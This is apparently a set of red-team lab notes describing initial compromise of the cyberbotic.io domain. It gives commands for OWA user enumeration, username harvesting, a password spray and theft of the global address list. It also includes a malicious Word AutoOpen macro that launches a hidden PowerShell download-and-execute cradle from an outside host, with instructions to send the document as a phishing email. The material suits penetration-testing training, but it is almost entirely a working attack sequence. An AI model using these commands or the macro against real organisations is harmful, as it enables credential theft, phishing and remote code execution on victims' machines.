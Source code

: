 # Initial Compromise

Enumerating Outlook Web Access (OWA) to identify valid user and conducting password spray attack

# Identify the mail server of given domain

    $ dig cyberbotic.io
    $ ./dnscan.py -d cyberbotic.io -w subdomains-100.txt

# Idenitfy the NETBIOS name of target domain

    ps> ipmo C:\Tools\MailSniper\MailSniper.ps1
    ps> Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io

# Extract Employee Names (FirstName LastName) and Prepare Username List

    $ ~/namemash.py names.txt > possible.txt

# Validate the username to find active/real usernames

    ps> Invoke-UsernameHarvestOWA -ExchHostname mail.cyberbotic.io -Domain cyberbotic.io -UserList .\Desktop\possible.txt -OutFile .\Desktop\valid.txt

# Conduct Password Spraying attack with known Password on identified users

    ps> Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList .\Desktop\valid.txt -Password Summer2022

# Use Identified credentials to download Global Address List

    ps> Get-GlobalAddressList -ExchHostname mail.cyberbotic.io -UserName cyberbotic.io\iyates -Password Summer2022 -OutFile .\Desktop\gal.txt

Create a malicious Office file having embedded macro

# Step 1: Open a blank word document "Document1". Navigate to  View > Macros > Create. Changes macros in to Document1. Name the default macro function as AutoOpen. Paste the below content and run for testing

    Sub AutoOpen()

      Dim Shell As Object
      Set Shell = CreateObject("wscript.shell")
      Shell.Run "notepad"

    End Sub

# Step 2: Generate a payload for web delivery (Attacks > Scripted Web Delivery (S) and generate a 64-bit PowerShell payload with your HTTP/DNS listener). Balance the number of quotes

    Sub AutoOpen()

      Dim Shell As Object
      Set Shell = CreateObject("wscript.shell")
	    Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://nickelviper.com/a'))"""

    End Sub

# Step 3: Save the document as .doc file and send it as phising email
